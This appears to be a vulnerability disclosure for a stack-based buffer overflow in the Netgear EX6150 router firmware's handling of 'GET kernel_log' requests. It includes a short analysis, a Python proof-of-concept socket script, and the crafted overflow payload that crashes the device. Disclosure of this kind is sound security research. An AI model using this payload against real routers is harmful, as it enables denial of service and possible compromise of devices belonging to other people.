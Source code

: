 # Overview
Details of the vulnerability found in the netgear router ex6150.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex6150    | V1.0.0.46_1.0.76    | https://www.downloads.netgear.com/files/GDC/EX6150/EX6150-V1.0.0.46_1.0.76.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_410090 at offset 0x004107F8, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET kernel_log`.
![second](./assets/2.png)
- Since the program uses `memset(&v22[6], 0, 94);`, the maximum size of the `v22` buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.7"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET kernel_log.s:GEToEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE%EEEEEEEEEEEEEEEEEE  wLG_wifi_sc}e_set.htm 3


```

# Vulnerability Verification Screenshot
##  ex6150
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
